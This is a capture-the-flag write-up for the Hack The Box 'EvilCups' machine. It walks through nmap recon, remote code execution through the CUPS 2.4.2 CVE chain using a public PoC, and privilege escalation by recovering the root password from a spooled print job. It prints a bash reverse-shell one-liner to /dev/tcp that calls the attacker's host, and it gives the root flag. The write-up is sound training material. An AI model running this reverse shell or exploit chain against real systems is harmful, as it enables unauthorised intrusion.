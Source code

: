 ```yaml
---
title : "Hack The Box - EvilCups"
author: imdang 🤞🤞
date: 2024-11-13 11:33:00 +0800
categories: [Hackthebox, Hackthebox-Linux, Hackthebox-Medium]
tags: [nmap,cups,linpeas,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon
## Nmap

The first thing that I do is run nmap scan that show this results:
```console
# Nmap 7.94SVN scan initiated Thu Oct 31 03:16:36 2024 as: nmap -sV -sC --min-rate=1000 -p- -o nmap 10.10.11.40
Warning: 10.10.11.40 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.40
Host is up (0.27s latency).
Not shown: 64302 closed tcp ports (conn-refused), 1231 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 03:19:48 2024 -- 1 IP address (1 host up) scanned in 191.98 seconds
```

From the nmap results, we can see that there is port 22 SSH and port 631 TCP run CUPS 2.4.2 service. Take a search ```cups 2.4.2``` and run nmap to scan udp port

```console
┌──(kali㉿kali)-[~/htb/machine/evilcups]
└─$ sudo  nmap -sU -p 630-632 10.10.11.40 -o nmap_udp
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 10:42 EST
Nmap scan report for 10.10.11.40
Host is up (0.25s latency).

PORT    STATE         SERVICE
630/udp closed        rda
631/udp open|filtered ipp
632/udp closed        bmpp

Nmap done: 1 IP address (1 host up) scanned in 3.26 seconds
```

That's port 631 UDP run ipp (Internet Printer Protocol) 

## Website - TCP 631

Take a look in the website, that is a web interface for CUPS 2.4.2 service to control openprinting printer

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_cups.png)


# Exploit

## User

Search for changelog and CVE in google for CUPS 2.4.2.

I see that has 4 CVE:
- CVE-2024-47076 has a CVSS score of 8.6, representing a critical level of severity due to the ability of an attacker to send malicious IPP requests to manipulate printer settings and execute arbitrary code​
- CVE-2024-47175 also scores 8.6, allowing for a similar type of remote code execution through crafted print job submissions, targeting vulnerabilities in the PPD file processing​
- CVE-2024-47176 carries a CVSS score of 5.3, reflecting the potential for exploitation via the cups-browsed service
- CVE-2024-47177 is another critical vulnerability, also scoring 9.0 (previously 9.9), as it allows attackers to bypass security measures by sending malformed IPP requests​

Combine this a report in github can get RCE from CUPS service in link [github]("https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8")

Use it and change ```command``` to get reverse shell in port ```9001``` to "bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'"

Run ```poc.py``` and access to printers in CUPS web and select to ```Print Test Page``` to get reverse shell and get user flag

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_poc.png)

User flag: ```***```

# Privilege Escalation

## Linpeas

Come back to Web TCP 631 and see first Printer default in Web, i get that is printer with id 1 in this.

So see in documention, get the default evilcups filesystem in ```var/spool/cups```, but no read privilege in this, user ```lp``` just have execute privilege, and continue in documention default file name is ```d<print job>-<page number>```, ```<print job>``` needs to be 5 digits and ```<page number>``` be 3 digits. So file-path is ```var/spool/cups/d00001-001```.

cat it

```shell
cat /var/spool/cups/d00001-001
%!PS-Adobe-3.0
%%BoundingBox: 18 36 577 806
%%Title: Enscript Output
%%Creator: GNU Enscript 1.6.5.90
%%CreationDate: Sat Sep 28 09:31:01 2024
%%Orientation: Portrait
%%Pages: (atend)
%%DocumentMedia: A4 595 842 0 () ()
%%DocumentNeededResources: (atend)
%%EndComments
%%BeginProlog
%%BeginResource: procset Enscript-Prolog 1.6.5 90
%
% Procedures.
%

/_S {   % save current state
  /_s save def
} def
/_R {   % restore from saved state
  _s restore
} def

/S {    % showpage protecting gstate
  gsave
  showpage
  grestore
} bind def

/MF {   % fontname newfontname -> -     make a new encoded font
  /newfontname exch def
  /fontname exch def
...
```

See that the file ```d00001-001``` is ps file with DocumentMedia, so use tool ```ps2pdf``` to convert it to pdf

```console
p@evilcups:/$ ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
ps2pdf /var/spool/cups/d00001-001 /tmp/d00001-001.pdf
lp@evilcups:/$ cd tmp
cd tmp
lp@evilcups:/tmp$ ls
ls
00d5e673a5af7
00d5e673c8b27
00d7f673b9575
00d7f673f3930
00dc8673acbd9
00dc8673d3f54
011d3673cb49e
011d3674208c4
03f816736a89b
03f816742929f
06d266737c890
06d26673a905e
06d5a673600d7
d00001-001.pdf
foomatic-8Zd8lA
foomatic-dC088b
foomatic-Nyxp01
foomatic-nzO5CZ
foomatic-o7RpxI
foomatic-sJEqZS
foomatic-TGU0gW
systemd-private-6f705080b80545b0a6fb3d6cd199155b-colord.service-uvXVLM
systemd-private-6f705080b80545b0a6fb3d6cd199155b-systemd-logind.service-p3WmZd
vmware-root_586-2696942867
```

Run http server and get pdf file

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_pdf.png)

SSH root with this password.

And now, WE ARE ROOT !! 

Root flag: ```2ff71ea6aba5d40af914c1af75672e2a```

# Box Rooted 

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241113_evilcups_boxroot.png)

<!-- HTB Profile : [ficstkeyfx](https://app.hackthebox.com/profile/244565) -->

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
